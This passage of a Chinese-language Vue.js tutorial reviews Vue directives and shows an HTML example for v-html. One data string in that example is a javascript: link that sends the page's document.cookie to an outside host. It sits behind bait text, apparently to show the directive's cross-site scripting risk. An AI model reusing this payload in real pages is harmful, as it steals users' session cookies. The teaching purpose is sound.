 **效果：**

![](https://img-blog.csdnimg.cn/img_convert/739ed5a4c0c853f138776edb8273dcb1.png)

**总结：**

*   之前学过的指令：
    
    *   `v-bind`：单向绑定解析表达式，可简写为`:`
    *   `v-model`：双向数据绑定
    *   `v-for`：遍历数组 / 对象 / 字符串
    *   `v-on`：绑定事件监听，可简写为`@`
    *   `v-if`：条件渲染（动态控制节点是否存存在）
    *   `v-else`：条件渲染（动态控制节点是否存存在）
    *   `v-show`：条件渲染 (动态控制节点是否展示)
*   `v-text`指令：
    
    1.  作用：向其所在的节点中渲染文本内容
        
    2.  与插值语法的区别：`v-text`会替换掉节点中的内容，`{{xx}}`则不会。
        

#### 1.16.2. v-html 指令

```
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-html指令</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<div>Hello，{{name}}</div>
			<div v-html="str"></div>
			<div v-html="str2"></div>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				name:'JOJO',
				str:'<h3>你好啊！</h3>',
				str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
			}
		})
	</script>
</html>
```
